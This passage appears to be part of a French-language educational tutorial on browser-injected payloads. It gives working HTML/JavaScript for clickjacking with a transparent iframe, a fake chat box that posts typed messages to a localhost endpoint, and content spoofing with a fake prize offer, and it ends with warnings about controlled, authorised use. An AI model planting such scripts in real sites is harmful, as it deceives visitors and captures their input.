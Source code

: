 **Explication :** Ce script affiche une fausse alerte de sécurité et redirige l'utilisateur vers une URL spécifiée.

- **Interception des clics utilisateur (clickjacking) :**

```html
<style>
    #clickjacker {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        opacity: 0;
    }
</style>
<iframe id="clickjacker" src="http://localhost/demo2"></iframe>
```

**Explication :** Ce script utilise une iframe transparente pour intercepter les clics de l'utilisateur et les rediriger vers une URL spécifiée.

- **Déclenchement de fausses fenêtres de chat :**

```html
<script>
    document.body.innerHTML = '<div id="chat" style="position:fixed;bottom:0;width:100%;background:#fff;border-top:1px solid #ccc;padding:10px;"><input type="text" id="chatInput" placeholder="Type your message here"><button onclick="sendMessage()">Send</button></div>';
    function sendMessage() {
        var message = document.getElementById('chatInput').value;
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://localhost/demo2/chat.php', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.send('message=' + encodeURIComponent(message));
    }
</script>
```

**Explication :** Ce script affiche une fausse fenêtre de chat et envoie les messages saisis par l'utilisateur à une URL spécifiée.

- **Injection de fausses pages de contenu (content spoofing) :**

```html
<script>
    document.body.innerHTML = '<h1>Exclusive Offer!</h1><p>Click <a href="http://localhost/demo2/offer.html">here</a> to claim your prize!</p>';
</script>
```

**Explication :** Ce script remplace le contenu de la page par une fausse offre exclusive.

## Remarques importantes

- **N'utilisez ces scripts que dans un environnement contrôlé et à des fins éducatives.**
- **Assurez-vous d'obtenir les permissions nécessaires pour effectuer ces tests sur les systèmes concernés.**
